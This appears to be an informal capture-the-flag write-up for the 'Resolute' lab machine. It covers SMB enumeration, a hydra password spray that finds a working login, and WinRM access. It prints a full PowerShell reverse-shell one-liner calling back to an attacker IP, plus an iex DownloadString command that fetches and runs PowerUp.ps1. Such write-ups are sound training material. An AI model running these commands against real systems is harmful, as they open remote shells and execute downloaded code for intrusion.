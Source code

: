 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
```bash 
hydra -L names.txt -P password.txt 10.10.10.169 smb
```

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!

so i can connect and enum as melanie with smbclient - smbmap	
```bash
smbmap -u melanie -H 10.10.10.169 -p Welcome123!
smbclient //10.10.10.169/SYSVOL -U melanie -p
```

i used the ruby exploit to connect on port 5985 (WinRm)

reserveshell Oneliner (not usefull here):
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

usefull privesc tool 
```bash 
iex (New-Object Net.WebClient).DownloadString(‘http://10.10.14.21:8899/PowerUp.ps1’)
```
